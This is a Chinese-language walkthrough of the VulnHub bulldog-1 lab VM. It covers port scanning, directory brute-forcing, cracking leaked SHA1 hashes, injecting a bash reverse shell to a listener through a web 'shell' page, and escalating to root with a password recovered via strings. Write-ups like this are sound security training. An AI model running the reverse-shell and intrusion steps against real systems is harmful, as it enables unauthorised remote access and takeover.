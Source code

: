 # VulnHub: bulldog-1
- https://www.vulnhub.com/entry/bulldog-1,211/
## Walkthrough
使用VirtualBox開啟虛擬機，可自動取得靶機ip，利用nmap掃port，http端口80、8080，ssh端口23皆為開放狀態  
DirBuster爆破目錄，發現在/dev/中的source code有提示  
> Need these password hashes for testing. Django's default is too complex
<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->  
把註解中的password拿去sha1 decode，求出nick跟sarah的password，試探用database(sarah)去登/admin/，成功，但無編輯權限  
發現/dev/shell網頁，登入sarah後擁有權限，試圖用bash反彈shell，失敗，最後用echo成功  
攻擊機:`nc -l 3333`  
靶機shell欄位:`echo "bash -i >& /dev/tcp/10.10.10.10/3333 0>&1" | bash`  
查看可疑user，發現bulldogadmin和django，查看bulldogadmin文件，發現可疑目錄/home/bulldogadmin/.hiddenadmindirectory
從note中發現提示  
> Literally run the app, give your account password >
用strings查看customPermissionApp，發現奇怪字眼  
`SUPERultH
imatePASH
SWORDyouH
CANTget`
研究了一下，刪掉H之後:  
`SUPERultimatePASSWORDyouCANTget`  
得到一串很像是密碼的東西，但並不確定，su試試，先解決error問題  
`python -c 'import pty;pty.spawn("/bin/bash")'`  
嘗試登入root帳號，密碼登入成功，回到/root目錄發現congrats.txt文件
`cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!`
